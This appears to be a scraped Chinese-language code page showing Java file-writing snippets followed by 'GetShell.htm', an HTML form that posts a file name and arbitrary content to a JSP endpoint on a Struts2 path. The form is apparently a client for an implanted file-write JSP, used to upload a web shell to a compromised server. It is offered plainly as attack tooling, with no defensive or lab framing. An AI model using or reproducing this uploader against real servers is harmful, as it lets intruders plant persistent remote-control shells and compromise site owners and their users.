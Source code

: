 ### 其他略特殊点的文件读写 Demo：

```
new FileOutputStream 
          new FileOutputStream("d:/sb.txt").write(new String("123").getBytes()); 
          new DataOutputStream 
          new DataOutputStream(new FileOutputStream("d:/1x.txt")).write(new String("123").getBytes()); 
FileWriter fw = new FileWriter("d:/3.txt"); 
            fw.write("21"); 
            fw.flush(); 
            fw.close(); 
RandomAccessFile rf = new RandomAccessFile("d:/14.txt", "rw"); 
            rf.write(new String("3b").getBytes()); 
            rf.close(); 
```

### GetShell.htm:

```
<html> 
<head> 
<meta http-equiv="content-type" content="text/html;charset=utf-8"> 
<title>jsp-yzmm</title> 
</head> 
<style> 
.main{width:980px;height:600px;margin:0 auto;} 
.url{width:300px;} 
.fn{width:80px;} 
.content{width:80%;height:60%;} 
</style> 
<script> 
  function upload(){ 
    var url = document.getElementById('url').value, 
      content = document.getElementById('content').value, 
      fileName = document.getElementById('fn').value, 
      form = document.getElementById('fm'); 
    if(url.length == 0){ 
      alert("Url not allowd empty!"); 
      return ; 
    } 
    if(content.length == 0){ 
      alert("Content not allowd empty!"); 
      return ; 
    } 
    if(fileName.length == 0){ 
      alert("FileName not allowd empty!"); 
      return ; 
    } 
    form.action = url; 
    form.submit(); 
  } 
</script> 
<body> 
<div class="main"> 
  <form id="fm" method="post">   
    URL:<input type="text" value="http://localhost/Struts2/css3.jsp" class="url" id="url" />&nbsp;&nbsp; 
    FileName:<input type="text" name="f" value="css.jsp" class="fn" id="fn" />&nbsp;&nbsp; 
    <a href="javascript:upload();">Upload</a><br/> 
    <textarea id="content" class="content" name="t" ></textarea> 
  </form> 
</div> 
</body> 
```